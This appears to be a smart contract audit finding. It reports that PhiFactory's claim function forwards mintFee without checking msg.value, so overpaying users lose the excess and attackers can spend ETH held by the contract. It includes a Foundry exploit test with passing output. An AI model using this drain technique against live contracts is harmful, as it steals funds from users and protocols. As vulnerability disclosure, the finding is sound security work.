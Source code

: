 ## [M] `PhiFactory:claim` potentially causing loss of funds if `mintFee` changed beforehand

If the `mintFee` was lowered by the Art creator via `updateArtSettings` before the `claim` was executed, the `msg.value` from user would become larger than the updated value of `mintFee`. As the function does not validate `msg.value` and consumes the `mintFee` directly, the excess ETH sent by the user will not be refunded, causing a loss of funds for user.

If `PhiFactory` still holds positive ETH balance, a malicious user can exploit this by sending less `msg.value` than expected (or no ETH at all). This results in `PhiFactory`'s ETH being used for the `mintFee` payment instead, causing a loss for the protocol.

### Proof of Concept

This external call to `this.merkleClaim` forwards the `mintFee` value of ETH without validating it against `msg.value`.

- Found in [src/PhiFactory.sol at Line 283](relative_path_091409:src/PhiFactory.sol#L283)

    ```solidity
    264:    function claim(bytes calldata encodeData_) external payable {
        ...
    282:            uint256 mintFee = getArtMintFee(artId, quantity_);
    283: =>             this.merkleClaim{ value: mintFee }(proof, claimData, mintArgs, leafPart_); 
    284:        } else if (art.verificationType.eq("SIGNATURE")) {
        ...
    304:    }
    ```

Similarly, this external call to `this.signatureClaim` forwards the `mintFee` value of ETH without validating it against `msg.value`.

- Found in [src/PhiFactory.sol at Line 300](relative_path_091409:src/PhiFactory.sol#L300)

    ```solidity
    264:    function claim(bytes calldata encodeData_) external payable {
        ...
    299:            uint256 mintFee = getArtMintFee(artId, quantity_);
    300: =>             this.signatureClaim{ value: mintFee }(signature_, claimData, mintArgs);
    301:        } else {
        ...
    304:    }
    ```

Although the `merkleClaim` and `signatureClaim` functions can process refunds, the `claim` function calls of these two functions `externally` (defined as `external` instead of `public`), results in the `msg.value` being overridden by the `mintFee`. As a result, the original `msg.value` sent to `claim()` remains unvalidated and become vulnerable to exploits.

### POC

Apply patch & run `forge test -vvv --mt test_claim_exploit`:

```patch
diff --git a/test/PhiFactory.t.sol b/test/PhiFactory.t.sol
index f999052..3b6853d 100644
--- a/test/PhiFactory.t.sol
+++ b/test/PhiFactory.t.sol
@@ -300,4 +300,43 @@ contract TestPhiFactory is Settings {
         assertEq(newRoyaltyReceiver, checkRoyaltyConfig.royaltyRecipient, "royalty receiver should be updated");
         assertEq(500, checkRoyaltyConfig.royaltyBPS, "royalty bps should be updated");
     }
+
+    function test_claim_exploit() public {
+        _createArt(ART_ID_URL_STRING); // artID 1
+        _createArt(ART_ID_URL_STRING); // artID 2
+
+        bytes[2] memory dataCompressed;
+
+        for (uint i = 0; i < dataCompressed.length; i++) {
+            bytes32 advanced_data = bytes32("1");
+            uint256 artId = i + 1;
+            bytes memory signData =
+                abi.encode(expiresIn, participant, referrer, verifier, artId, block.chainid, advanced_data);
+            bytes32 msgHash = keccak256(signData);
+            bytes32 digest = ECDSA.toEthSignedMessageHash(msgHash);
+            (uint8 v, bytes32 r, bytes32 s) = vm.sign(claimSignerPrivateKey, digest);
+            if (v != 27) s = s | bytes32(uint256(1) << 255);
+            bytes memory signature = abi.encodePacked(r, s);
+            bytes memory data =
+                abi.encode(artId, participant, referrer, verifier, expiresIn, uint256(1), advanced_data, IMAGE_URL, signature);
+            dataCompressed[i] = LibZip.cdCompress(data);
+        }
+
+        vm.startPrank(participant, participant);
+
+        // @audit claim artId 1 with extra 0.1 ETH to simulate the mintFee has been lowered right before
+        uint256 totalMintFee = phiFactory.getArtMintFee(1, 1);
+        phiFactory.claim{ value: totalMintFee + 0.1 ether }(dataCompressed[0]);
+        uint256 phiFactoryBalance1 = address(phiFactory).balance;
+        assertEq(phiFactoryBalance1, 0.1 ether, "balance is empty");
+        console2.log("phiFactory has extra %d after claim artId 1", phiFactoryBalance1);
+
+        // @audit claim artId 2 to exploit phiFactory balance since it has extra 0.1 ether
+        totalMintFee = phiFactory.getArtMintFee(2, 1);
+        phiFactory.claim{ value: 0 }(dataCompressed[1]); // 0 ETH was used
+        uint256 phiFactoryBalance2 = address(phiFactory).balance;
+        assertEq(phiFactoryBalance2, phiFactoryBalance1 - totalMintFee, "phiFactory balance not exploited");
+        console2.log("phiFactory after claim artId 2", phiFactoryBalance2);
+        console2.log("phiFactory loss %d after claim artId 2", phiFactoryBalance1 - phiFactoryBalance2);
+    }
 }
```

Result:

```sh
forge test -vvv --mt test_claim_exploit

Ran 1 test for test/PhiFactory.t.sol:TestPhiFactory
[PASS] test_claim_exploit() (gas: 2103923)
Logs:
  phiFactory has extra 100000000000000000 after claim artId 1
  phiFactory after claim artId 2 89550000000000000
  phiFactory loss 10450000000000000 after claim artId 2

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 4.78ms (1.92ms CPU time)
```

This confirms both cases where `msg.value > mintFee` and `msg.value = 0` could be exploited, causing loss of funds for both users and the protocol.



